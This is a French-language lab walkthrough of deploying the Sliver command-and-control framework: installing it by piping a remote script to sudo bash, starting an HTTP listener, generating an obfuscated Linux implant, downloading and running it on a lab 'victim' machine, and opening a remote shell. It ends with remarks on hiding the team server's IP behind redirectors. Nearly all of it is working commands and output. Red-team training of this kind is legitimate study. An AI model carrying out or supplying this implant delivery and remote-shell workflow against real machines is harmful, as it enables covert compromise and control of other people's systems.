

nous allons commencé par créer notre répertoire `Tools`


```bash
┌──(kali㉿kali)-[~]
└─$ mkdir Tools

```


```bash
┌──(kali㉿kali)-[~]
└─$ cd Tools 

```

## Installation de C2 Sliver

```bash
┌──(kali㉿kali)-[~]
└─$ curl https://sliver.sh/install | sudo bash
[sudo] password for kali:   % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100   6043 100   6043   0      0   9688      0                              0

Sorry, try again.
[sudo] password for kali: 
Installing dependencies using apt...
(Reading database… 426712 files and directories currently installed.)
Preparing to unpack …/git_1%3a2.53.0-1_amd64.deb…
Unpacking git (1:2.53.0-1) over (1:2.51.0-1)…
Preparing to unpack …/git-man_1%3a2.53.0-1_all.deb…
Unpacking git-man (1:2.53.0-1) over (1:2.51.0-1)…
Selecting previously unselected package libsodium26:amd64.
Preparing to unpack …/libsodium26_1.0.22-2_amd64.deb…
Unpacking libsodium26:amd64 (1.0.22-2)…
Selecting previously unselected package minisign.
Preparing to unpack …/minisign_0.12-1+b1_amd64.deb…
Unpacking minisign (0.12-1+b1)…
Setting up git-man (1:2.53.0-1)…
Setting up libsodium26:amd64 (1.0.22-2)…
Setting up minisign (0.12-1+b1)…
Setting up git (1:2.53.0-1)…
Processing triggers for libc-bin (2.43-7)…
Processing triggers for man-db (2.13.1-1)…
Processing triggers for kali-menu (2026.1.5)…
Running from /root
Using Minisign public key...
Fetching latest Sliver release URLs...
Downloading https://github.com/BishopFox/sliver/releases/download/v1.7.9/sliver-client_linux-amd64

Unpacking assets ...
Setting permissions for the Sliver client executable...
Copying the Sliver client executable to /usr/local/bin/sliver-client...
'/root/sliver-client_linux-amd64' -> '/usr/local/bin/sliver-client'
Creating a symbolic link for sliver-client at /usr/local/bin/sliver...
Setting permissions for the symbolic link /usr/local/bin/sliver...
Configuring systemd service ...
Generating local configs ...
Generating operator configs ...
Generating operator configs for user kali...
Reloading systemd and starting the Sliver service...

. . . .
```

le processus d'installation est terminé nous allons lancé notre c2 


```bash
┌──(root㉿kali)-[~]
└─# ./sliver-server 
                                                    
        ███████╗██╗     ██╗██╗   ██╗███████╗██████╗ 
        ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
        ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
        ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
        ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
        ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝
                                                    
All hackers gain hidden agenda
[*] Server v1.7.9 - 6cf3ad78bdc6eed799186194e6f4e6fd662dcd8c
[*] Welcome to the sliver shell, please type 'help' for options

[server] sliver > 
```

nous somme dans la console du C2

créons une listener

```bash
[server] sliver > http -L 10.0.2.126 -l 8080

[*] Starting HTTP :8080 listener ...
[*] Successfully started job #1

[server] sliver > 
```

générons notre implante, la cible est linux le format est elf

```bash
[server] sliver > generate --http http://10.0.2.126:8080 --os linux --arch amd64 --format elf --save /tmp/

[*] Generating new linux/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 3m0s
[*] Implant saved to /tmp/SWEET_DIVIDE

[server] sliver > 
```

notre implant est générer

```bash
┌──(kali㉿kali)-[/tmp]
└─$ ls
. . . .
SWEET_DIVIDE
```

téléchargeons le sur la machine victime

```bash
d4fl0n@lab:~$ wget 10.0.2.126/SWEET_DIVIDE
Prepended http:// to '10.0.2.126/SWEET_DIVIDE'
--2026-11-05 18:15:23--  http://10.0.2.126/SWEET_DIVIDE
Connecting to 10.0.2.126:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15933667 (15M) [application/octet-stream]
Saving to: ‘SWEET_DIVIDE’

SWEET_DIVIDE        100%[================>]  15.20M  32.1MB/s    in 0.5s    

2026-11-05 18:15:24 (32.1 MB/s) - ‘SWEET_DIVIDE’ saved [15933667/15933667]

d4fl0n@lab:~$ 
```

nous allons l'accordé l'autorisation d'exécution ainsi que l'exécution aussi

```bash
d4fl0n@lab:~$ chmod +x SWEET_DIVIDE 
d4fl0n@lab:~$ ./SWEET_DIVIDE 

```

nous avons obtenu une sessions 

```bash
[*] Session 05d741d4 SWEET_DIVIDE - 10.0.2.75:37494 (lab) - linux/amd64 - Thu, 05 Nov 2026 12:15:36 EST


[server] sliver > 

```

```bash
[server] sliver > sessions

 ID         Transport   Remote Address    Hostname   Username   Operating S~~
========== =========== ================= ========== ========== ============~~
 05d741d4   http(s)     10.0.2.75:37494   lab        d4fl0n     linux/amd64~~

[server] sliver > 
```

connexion au sessions de la machine compromis

```bash
[server] sliver > use 05d741d4

[*] Active session SWEET_DIVIDE (05d741d4-f93c-4cbe-b749-42e5bb183030)

[server] sliver (SWEET_DIVIDE) >
```

shell interactive sur la machine compromis

```bash
[server] sliver (SWEET_DIVIDE) > shell

1u
[*] Shell management: `shell ls`, `shell attach <id>`
[*] Escape: press Ctrl-] to return to the Sliver client
[*] Opening shell tunnel ...

[*] Started remote shell [1] with pid 932

                                         d4fl0n@lab:~$ 
d4fl0n@lab:~$ 
d4fl0n@lab:~$ id
uid=1000(d4fl0n) gid=1000(d4fl0n) groups=1000(d4fl0n),27(sudo),100(users)
d4fl0n@lab:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  SWEET_DIVIDE  Templates  Videos
d4fl0n@lab:~$ id
uid=1000(d4fl0n) gid=1000(d4fl0n) groups=1000(d4fl0n),27(sudo),100(users)
d4fl0n@lab:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  SWEET_DIVIDE  Templates  Videos
d4fl0n@lab:~$ 
```


vérifions notre implante


```bash
[server] sliver > implants

 Name           Implant Type   Template   OS/Arch           Format   Command & Control            Debug   C2 Config   ID      Stage 
============== ============== ========== ============= ============ ============================ ======= =========== ======= =======
 SWEET_DIVIDE   session        sliver     linux/amd64   EXECUTABLE   [1] http://10.0.2.126:8080   false   default     37086   false 


[server] sliver > 
```





****Note:  pourquoi le C2 direct est indéfendable — l'IP du team server est visible en clair depuis la cible, un défenseur remonte à vous en une requête. C'est exactement le problème que le niveau 2 (premier redirecteur) viendra résoudre.


**Conclusion :** obfusquer le _contenu_ ne suffit pas. Tant que la cible parle en direct au C2, son IP est grillée et traçable. → motivation directe du niveau 2 (redirecteur).

****Etape: install → listener → implant → delivery → session → shell → vérif....
